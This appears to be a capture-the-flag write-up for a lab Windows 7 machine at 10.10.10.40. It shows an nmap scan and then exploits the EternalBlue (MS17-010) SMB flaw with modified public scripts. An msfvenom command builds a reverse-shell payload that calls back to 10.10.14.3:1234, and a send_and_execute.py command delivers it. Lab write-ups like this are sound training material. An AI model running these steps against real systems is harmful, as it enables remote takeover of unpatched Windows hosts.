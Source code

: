# Enumeration:

```bash
# Nmap 7.92 scan initiated Sun Jul 17 20:57:23 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 10.10.10.40
Nmap scan report for 10.10.10.40
Host is up (0.073s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Device type: general purpose
Running: Microsoft Windows 2008
OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
OS details: Microsoft Windows Server 2008 SP1
Network Distance: 2 hops
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-07-18T00:59:53
|_  start_date: 2022-07-17T19:07:52
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-07-18T01:59:52+01:00
|_clock-skew: mean: -19m57s, deviation: 34m37s, median: 1s

TRACEROUTE (using port 1025/tcp)
HOP RTT      ADDRESS
1   71.60 ms 10.10.14.1
2   71.60 ms 10.10.10.40

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 17 20:59:59 2022 -- 1 IP address (1 host up) scanned in 156.04 seconds
```
</br>

Nmap vulnerabilities scan: ```nmap -sS -p139,445 -Pn 10.10.10.40 -v --script vuln``` </br>
![nmap_vuln_scan](images/blue/nmap_vuln_scan.png) </br>
**Initial Shell:** </br>
 EternalBlue is a SMB exploit, to determine whether we can actually exploit it with anonymous authentication, we will try to connect anonymously with this command: </br>
```smbclient -L \\10.10.10.40``` </br>
As we can see it has listed the shares without having an authenticated username and password. </br>
First I used [checker.py](https://github.com/worawit/MS17-010/blob/master/checker.py) to find the accessible named pipe: </br>
![named_pipes](images/blue/named_pipes.png) </br>
Because guest authentication was allowed, I had to modify the exploit and checker.py file: </br>
![checker_modify](images/blue/checker_modify.png) </br>
``//`` - recognized as a guest. </br>
I could see that it is a x64 architecture machine, and I could see that I found some named pipes I could use. </br>
**Generate the Payload:** </br>
```msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=1234 EXITFUNC=thread -f exe  --platform windows -o reverseshell.exe``` </br>
**Exploit:** </br>
**Kali Linux** </br>
Command: ```python2 send_and_execute.py 10.10.10.40 reverseshell.exe samr``` </br>
![initial_shell_exploit](images/blue/initial_shell_exploit.png) </br> </br>
**Target Machine:** </br>
![reverse_shell](images/blue/reverse_shell.png)



